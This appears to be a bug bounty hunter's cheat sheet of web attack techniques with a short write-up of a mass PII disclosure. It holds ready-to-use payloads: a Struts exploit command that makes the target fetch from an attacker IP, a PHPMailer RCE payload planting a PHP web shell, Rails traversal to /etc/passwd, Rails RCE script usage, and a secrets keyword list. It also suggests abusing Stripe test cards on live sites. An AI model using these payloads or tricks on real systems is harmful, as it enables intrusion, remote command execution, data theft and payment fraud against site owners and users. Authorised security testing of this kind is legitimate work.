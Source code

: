 ***
**Bugs**
- **Blind XSS**
	- Blind XSS Payload in User-Agent header
	- BXSS payload while logging (Enter the BXSS payload in forget pass, login, signup to generate errors)
	- Use BXSS payload as your password
- Add header in the Proxy > Options (`X-Forwarded-Host: site.com`) - browse the program and the later click burp > search and try to find your `X-Forwarded-Host` value for web cache deception
- HTTP Request Smuggling
- Apply on `.xhtml`
- `python struts-pwn.py -u http://site.com/orders.xhtml -c "wget http://ip:1337/test" --exploit`
- Test for Electronic Code Book (`AAAAAAA aaaaaaa BBBBB`)
- CVE-2016-10033: PHPMailer RCE
	- email: "attacker@127.0.0.1\" -oQ/tmp/ -X /var/www/shell.php root"@127.0.0.1
	- subject: <?php system($_GET['c']);?>
- Change all the request to TRACE method to disclose or access info
- `blc http://company.com -ro` (check for broken links)
- `companyname.atlassian.net`
- `jira.companyname.com`
- Vhost testing
- Test for buckets
- Check Github & docker list
- api, token, username, password, secret, dev, prod, jenkins, config, ssh, ftp, MYSQL_PASSWORD, admin, AWS, bucket, GITHUB_TOKEN
- `gau site.com`
- Accessing misconfigured date of and `org: https://stroage.googleapis.com/<org-name>`
- Unauthorized access to org's google groups: `https://groups.google.com/a/<domain-name>`
- `waybackurls site.com`
- if running ruby on rails then: `Accept ../../../../../etc/passwd{{`
	- CVE-2019-5418
	- Fixed in Action View 6.0.0.beta3, 5.2.2.1, 5.1.6.2, 5.0.7.2, 4.2.11.1
- CVE-2013-0156: Rails Object injection: `ruby rails_rce.rb http://site.com` [script](https://gist.githubusercontent.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb)
- CVE-2019-11043 Hint: PHP based website on NGINX phuip-fpizdam `http://site.com/anyphpfile.php`
- Check for crlf injection
- Bypass open redirection protection
- keyfinder
- `site: scribd.com "target"` (or you can use other dorks like "TARGET")
- Check email verification `admin@site.com`
- `site.com/home/....4....json` (Will disclose all the content of the home dir + sensitive info)
- CVE-2019-19781 Citrix NetScaler Directory Traversal:
```bash
curl -vk -path-as-is https://$TERGET/vpn/../vpns/ 2>&1 | grep "You don't have permission to acces /vpns/" >/dev/null && echo "VULNERABLE: $TERGET" || echo "MITIGATED:$TARGET" 
```

---

Some organizations allow test cards on production environments as they forget to disable testing mode. When you come across such a website that requires `Paid Subscription` and is using `Stripe` as a `Payment Gateway`, always try demo or fake debit cards.

---

## Excessive Date Exposure
In a private bug bounty program, the response to the login request had three addition parameters: `isAdmin`, `isStaff`, and `isSupport`. All three were initially set to `false`. Setting them to `true` grated access to a new endpoint that allowed searching for companies using their registration IDs. 
A GET request to the following endpoint was made when searching for a company:
```http
GET /company/companies.json?registration_number=123456&page=1&per1 HTTP/1.1
Host: api.site.com
```
The `GUI` displayed only the `Company's Name`. However, by using Burp Suited to analyzed the response, `Sensitive Personal Information` for the company was exposed. The disclosed information included the `Company Name`, `Email`, `Phone Number`, and `Full Address (Street, City, Country)`.
This data was initially exclusive to a single company, and any attempt at brute-forcing was disallowed on that endpoint due to the presence of rate-limit protection.
I cleared the values of all parameters and sent the request with empty fields.
```http
GET /company/companies.json?registration_number=&page=&per= HTTP/1.1
```
As a result, the sensitive information of every company in the program was exposed. It was a Mass PII disclosure affecting more than 40 thousand companies.
